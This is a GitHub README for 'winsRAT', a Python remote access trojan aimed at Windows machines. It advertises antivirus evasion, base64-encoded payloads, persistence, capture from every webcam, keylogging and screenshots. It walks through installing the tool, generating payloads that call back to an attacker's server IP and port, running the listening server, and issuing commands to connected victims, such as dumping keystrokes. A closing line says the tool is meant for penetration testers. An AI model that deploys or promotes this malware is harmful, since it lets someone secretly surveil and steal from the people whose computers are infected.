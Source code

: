 <h1 align="center"> 
    <img src="https://user-images.githubusercontent.com/29171692/89164677-00e3e480-d595-11ea-9cf1-f27ab1faf432.png" alt="SillyRAT" /> <br>    
    winsRAT Under continuous development (Beta winsRAT)
</h1>
<p align="center">
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/ThemeHackers/winsRAT/releases" target="_blank"><img src="https://img.shields.io/badge/version-v2.1-blue.svg?logo=moo" alt="Release: v3.1" /></a>
    <a href="https://opensource.org/license/gpl-3-0" target="_blank"><img src="https://img.shields.io/badge/license-GPL-green.svg" alt="lisence" /></a>
</p>
<h4 align="center">Windows RAT</h4>
<h4 align="center">If you find any issues with the code, you can open an Issue</h4>
<h4 align="center">We are currently experiencing issues with the webcam module, screen sharing module, and anti-VM module. We are working on fixing these issues, and the Webcam function is now complete. We will implement the fix as soon as possible and continue developing other modules</h4>

## Issues
- Fixing module errors
- Anti-VM Modules
- Screenshare Modules

## Getting Started
### Description
winsRAT is written entirely in Python, developed from SillyRAT. winsRAT is a RAT specifically for Windows operating systems and has additional features. Server.py can generate two types of files: .exe files and source files.

### Features
This image shows the features of the tool.
<h6 align="center"><img src="/img/features.png"></h6>
And others, stay tuned.

### High-level features

- Avoid AV
- The payload is base64 encoded.
- The webcam module is developed to capture images of multiple devices on the connected target machine. For example, if the target machine has 5 webcams, this module will capture images of all 5 devices immediately when using the webcam command on the server.
- Reconnecting to increase retention
- And others, stay tuned.

### Installation
The tool is tested on **Windows** with **Python 3.13.4**. 
Follow the steps for installation:
```
$ git clone https://github.com/ThemeHackers/winsRAT
$ cd winsRAT/
$ pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>

Source file

```
$ python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}" -s -per
$ python3 server.py generate -a 192.168.1.100 -p 9001 -o "C:\Users\1com3456\Downloads\winsrat" -s -per
```
Compiled file

```
$ python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}"
$ python3 server.py generate -a 192.168.1.100 -p 9001 -o  "C:\Users\1com3456\Downloads\winsrat"
```

<h6 align="center"><img src="/img/generate.png"></h6>

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Windows. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 server.py bind -a 0.0.0.0 -p 9001
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

<h6 align="center"><img src="/img/sessions.png"></h6>

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

<h6 align="center"><img src="/img/kl_scr.png"></h6>

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Credit
Twitter: <a href="//twitter.com/hash3liZer">@hash3liZer</a><br>
Discord: TheFlash2k#0407

### Support the improvement 
Instagram: <a href="https://www.instagram.com/_tthemzdl5678/">_tthemzdl5678</a><br>
Github: <a href="https://github.com/ThemeHackers/">ThemeHackers</a><br>
### Disclaimer
This tool is only for use by penetration testers or security testers. The author is not responsible for any illegal actions in your country.
